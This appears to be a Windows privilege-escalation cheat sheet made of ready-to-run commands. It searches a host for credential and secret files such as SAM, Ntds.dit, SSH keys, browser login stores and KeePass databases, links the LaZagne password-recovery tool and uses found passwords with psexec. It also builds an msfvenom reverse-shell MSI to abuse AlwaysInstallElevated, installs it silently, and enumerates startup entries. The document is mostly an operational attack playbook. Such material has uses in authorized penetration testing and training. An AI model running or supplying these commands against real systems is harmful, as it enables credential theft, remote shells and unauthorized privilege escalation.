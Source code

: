 ```
dir /s/b /A:-D RDCMan.settings == *.rdg == SCClient.exe == *_history == .sudo_as_admin_successful == .profile == *bashrc == httpd.conf == *.plan == .htpasswd == .git-credentials == *.rhosts == hosts.equiv == Dockerfile == docker-compose.yml == appcmd.exe == TypedURLs == TypedURLsTime == History == Bookmarks == Cookies == "Login Data" == places.sqlite == key3.db == key4.db == credentials == credentials.db == access_tokens.db == accessTokens.json == legacy_credentials == azureProfile.json == unattend.txt == access.log == error.log == *.gpg == *.pgp == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12 == *.der == *.csr == *.cer == known_hosts == id_rsa == id_dsa == *.ovpn == anaconda-ks.cfg == hostapd.conf == rsyncd.conf == cesi.conf == supervisord.conf == tomcat-users.xml == *.kdbx == KeePass.config == Ntds.dit == SAM == SYSTEM == FreeSSHDservice.ini == sysprep.inf == sysprep.xml == unattend.xml == unattended.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == groups.xml == services.xml == scheduledtasks.xml == printers.xml == drives.xml == datasources.xml == php.ini == https.conf == https-xampp.conf == httpd.conf == my.ini == my.cnf == access.log == error.log == server.xml == SiteList.xml == ConsoleHost_history.txt == setupinfo == setupinfo.bak 2>nul | findstr /v ".dll"
```

### Recover passwords stored in user memory
https://github.com/AlessandroZ/LaZagne/releases/download/2.4.3/lazagne.exe  

### Use found password to execute command
```
psexec.exe -accepteula -u <user> -p <password> <command> 
```


## AlwaysInstallElevated
### Check if AlwaysInstallElevated is enabled on both registry keys (0x1 -> feature is enabled)
```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

### Create msi file with msfvenom 
```
msfvenom -p windows/shell/reverse_tcp lhost=<lhost> lport=<lport> -f msi > <file>.msi
```

### Install file using msi (qn = no GUI, i = regular installation)
```
msiexec /quiet /qn /i <file>.msi
Write-UserAddMSI -Verbose
```


## Startup Applications
### Get startup scripts
```
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ItemProperty -Path 'Registry::HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run'
```